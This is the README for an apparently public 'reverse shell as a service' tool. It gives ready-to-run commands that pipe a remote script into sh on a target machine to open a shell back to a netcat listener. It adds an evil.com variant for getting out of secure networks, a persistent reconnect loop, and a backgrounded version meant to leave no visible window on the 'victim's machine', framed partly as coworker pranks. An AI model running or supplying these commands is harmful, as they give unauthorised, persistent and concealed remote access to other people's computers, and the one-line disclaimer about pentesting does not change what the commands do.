 # reverse-shell

> Reverse Shell as a Service - https://reverse-shell.sh

[![Build Status](https://travis-ci.org/lukechilds/reverse-shell.svg?branch=master)](https://travis-ci.org/lukechilds/reverse-shell)
[![Coverage Status](https://coveralls.io/repos/github/lukechilds/reverse-shell/badge.svg?branch=master)](https://coveralls.io/github/lukechilds/reverse-shell?branch=master)
[![npm](https://img.shields.io/npm/v/reverse-shell.svg)](https://www.npmjs.com/package/reverse-shell)

Easy to remember reverse shell that should work on most Unix-like systems.

Detects available software on the target and runs an appropriate payload.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://reverse-shell.sh/yourip:port into sh.

```shell
curl https://reverse-shell.sh/192.168.0.69:1337 | sh
```

Go back to your machine, you should now have a shell prompt.

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## Demo

<img src="https://i.imgur.com/qqjhxAw.gif" width="808">

## Tips

### Hostname

You can use a hostname instead of an IP.

```shell
curl https://reverse-shell.sh/localhost:1337 | sh
```

### Remote connections

Because this is a reverse connection it can punch through firewalls and connect to the internet.

You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with.

```shell
curl https://reverse-shell.sh/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop.

```shell
while true; do curl https://reverse-shell.sh/yourip:1337 | sh; done
```

Be careful if you do this to a coworker, if they leave the office with this still running you're opening them up to attack.

### Running as a background process

The terminal session needs to be kept open to persist the reverse shell connection. That might be a bit of a giveaway if you're trying to prank coworkers.

The following command will run the reverse shell in a background process and exit the terminal, leaving no suspicious looking terminal windows open on the victim's machine.

Make sure you run this in a fresh terminal window otherwise you'll lose any work in your existing session.

```shell
sh -c "curl https://reverse-shell.sh/localhost:1337 | sh -i &" && exit
```

## License

MIT © Luke Childs
